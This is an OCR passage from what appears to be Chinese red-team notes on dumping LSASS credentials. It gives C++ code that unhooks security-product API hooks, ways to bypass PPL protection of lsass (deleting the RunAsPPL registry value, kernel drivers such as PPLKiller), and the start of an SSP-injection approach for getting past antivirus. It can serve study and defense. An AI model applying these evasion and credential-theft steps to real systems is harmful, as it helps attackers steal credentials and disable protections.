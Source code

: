 ```c++
        return FALSE;

    if (memcmp(pAPIProc, pAPIProcOriginal, 5)) {
        wprintf(L"%s!%S is hooked, try unhook\n", lpDllFileName + dwSlashIndex, pAPIName);
        DWORD dwOldProtect;
        DWORD dwTmpProtect;
        if (!VirtualProtect(pAPIProc, 5, PAGE_READWRITE, &dwOldProtect))
            return FALSE;
        memcpy(pAPIProc, pAPIProcOriginal, 5);
        if (!VirtualProtect(pAPIProc, 5, dwOldProtect, &dwTmpProtect))
            return FALSE;
        return TRUE;
    }
    else
        wprintf(L"%s!%S is not hooked\n", lpDllFileName + dwSlashIndex, pAPIName);

    return TRUE;
}
```

### PPL

Windows8.1后引入了[PPL(Protected Process Light)](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection)。对于lsass进程来说，`type=PsProtectedTypeProtectedLight`和`signer=PsProtectedSignerLsa`

注册表配置

```
PS C:\> reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    RunAsPPL    REG_DWORD    0x1
```

当lsass配置RunAsPPL时，可以防止读取内存和注入代码。具体来说，以`QUERY_INFORMATION`或`VM_READ`打开进程句柄时会返回error code 5（Access denied），无论操作者权限多高

***

第一种方法，修改注册表（删除RunAsPPL项）后重启

第二种方法，因为要读写系统内存，所以只能通过内核模式的驱动程序来操作。除了利用mimidrv.sys，还有：[RedCursorSecurityConsulting/PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller) 和 [Mattiwatti/PPLKiller](https://github.com/Mattiwatti/PPLKiller)

### AV Process Protection

AV(如卡巴斯基)的加固方式其实我并不清楚，猜测可能是R0层的Hook(SSDT)，检测对LSASS的内存读取

xpn的[Blog](https://blog.xpnsec.com/exploring-mimikatz-part-2/)中提到的方法

思路为：

1. 通过`AddSecurityProvider`添加一个SSP，不需要重启系统，但会需要修改注册表，因为该API调用成功后会添加DLL到`HKLM\System\CurrentControlSet\Control\Lsa`
